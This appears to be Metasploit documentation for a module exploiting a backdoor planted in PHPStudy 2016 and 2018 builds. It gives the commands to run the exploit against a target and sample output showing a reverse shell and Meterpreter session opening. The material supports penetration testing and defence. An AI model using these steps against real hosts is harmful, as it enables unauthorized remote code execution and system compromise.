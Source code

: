 ## Description

PHPStudy is free software, it is a one-click installation software, which includes PHP, MySQL, Apache and more. At some point in time, hackers were able to hack into phpStudy and tamper on 2016 and 2018 versions of the software to make it vulnerable to this specific exploit.

## Vulnerable Application

The vulnerability exists in php-5.4.45 and php-5.2.17 service versions in PHPStudy2016 and PHPStudy2018

## Verification Steps

1. Start msfconsole
2. Do:```use exploit/multi/http/phpstudy_backdoor_rce``` 
3. Do:```set rhosts <target>```
4. Do:```run```

If your target is vulnerable, you will get a shell. 
you should see an output similar to the following

```
msf exploit(multi/http/phpstudy_backdoor_rce) > set rhosts 192.168.56.104
rhosts => 192.168.56.104
msf exploit(multi/http/phpstudy_backdoor_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Sending shellcode
[*] Sending stage (38288 bytes) to 192.168.56.104
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.104:49169) at 2020-02-23 10:11:40 +0800

meterpreter > 
```
